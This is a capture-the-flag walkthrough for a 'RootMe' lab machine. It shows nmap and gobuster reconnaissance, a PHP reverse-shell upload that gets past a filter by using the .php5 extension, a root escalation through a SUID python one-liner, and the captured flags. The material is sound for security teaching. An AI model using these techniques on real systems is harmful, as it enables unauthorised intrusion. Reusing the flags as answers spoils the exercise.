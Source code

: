 # RootMe

export IP=10.10.235.187

## Task 2 - Reconnaissance

### 1 - Scan the machine, how many ports are open?
cmd: nmap -sC -sV -oN nmap/initial $IP
```
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home

```
Answer: 2
### 2 - What version of Apache are running?
Answer: 2.4.29
### 3 - What service is running on port 22?
Answer: ssh
### 4 - Find directories on the web server using the GoBuster tool.
Answer: NA

### 5 - What is the hidden directory?
cmd: gobuster dir -u http://$IP -w /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt -t 40 -o gobuster/big.log -x php,txt,html

```
/index.php (Status: 200)
/uploads (Status: 301)
/css (Status: 301)
/js (Status: 301)
/panel (Status: 301)
```

Answer: /panel/

## Task 3 - Getting a shell

### 1 - user.txt

in the /panel directory we can upload files ! <br>
Lets test some php rev shell right away... <br>

.php was blocked, changed to .php5 and well, it worked <br>
```
cat ~/user.txt
THM{y0u_g0t_a_sh3ll}
```
Answer: THM{y0u_g0t_a_sh3ll}

## Task 4 - Privilege escalation

### 1 - Search for files with SUID permission, which file is weird? 

cmd: find / -type f -perm /4000 -print 2>/dev/null

```
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python <- wth, python with SUID
/usr/bin/at
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec 

(53 found !)
```


### 2 - find a form to escalate your privileges
```
python -c 'import os; os.execl("/bin/bash", "sh", "-p")'

whoami 
root
```

Answer: NA

### 3 - root.txt

```
cat /root/root.txt
THM{pr1v1l3g3_3sc4l4t10n}
```

Answer: THM{pr1v1l3g3_3sc4l4t10n}
